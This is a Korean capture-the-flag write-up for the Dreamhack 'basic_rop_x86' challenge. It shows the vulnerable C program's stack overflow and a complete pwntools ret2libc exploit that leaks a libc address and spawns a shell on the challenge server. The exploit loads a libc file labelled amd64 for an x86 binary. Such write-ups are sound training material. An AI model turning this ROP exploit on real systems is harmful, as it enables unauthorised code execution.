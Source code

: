 basic_rop_x86 라이트업
===============


## 분석

### 보호 기법

* 일단 적용된 보호 기법을 보면 ASLR 있고, NX있고, 카나리와 pie는 없다.
* 카나리가 없기 때문에 sfp, ret과 그 뒷 주소를 마음대로 변경해도 된다.


### 코드 분석

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

buf 변수의 크기는 0x40이지만 read 함수에서 buf 변수에 0x400 크기의 입력을 받고 있어 버퍼 오버플로우가 발생한다.



## 익스플로잇

x64 아키텍쳐에서는 함수를 부를 때 함수의 주소와 함께 이미 레지스터에 저장되어 있는 값들을 인자로 실행되어 페이로드에 (레지스터 세팅 과정) + (함수의 주소) 형식으로 전달해준다.

그러나 x86의 경우 레지스터가 아닌 스택에서 값을 pop하여 인자로 전달하며, 순서 또한 반대로 (함수의 주소) + (pop 과정)의 형태로 페이로드를 작성해야 한다. 

### 익스플로잇 코드


```python
from pwn import *

p = remote('host8.dreamhack.games', 22296)
e = ELF("./basic_rop_x86")
libc = ELF("./libc6_2.27-3ubuntu1.4_amd64.so")

r = ROP(e)

read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh_offset = list(libc.search(b"/bin/sh"))[0]

pop_ret = r.find_gadget(['pop ebp', 'ret'])[0]
pop2_ret = r.find_gadget(['pop edi', 'pop ebp', 'ret'])[0]
pop3_ret = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

payload = b'A' * 0x48
payload += p32(write_plt)
payload += p32(pop3_ret)
payload += p32(1) + p32(read_got) + p32(4)
payload += p32(main)

p.send(payload)
p.recvuntil(b'A' * 0x40)

read = u32(p.recvn(4))
libc_base = read - read_offset
system = libc_base + system_offset
sh = libc_base + sh_offset

print(hex(libc_base))
print(hex(system))

payload = b'A' * 0x48
payload += p32(system)
payload += p32(pop_ret)
payload += p32(sh)

p.send(payload)
p.recvuntil(b'A' * 0x40)

p.interactive()
```
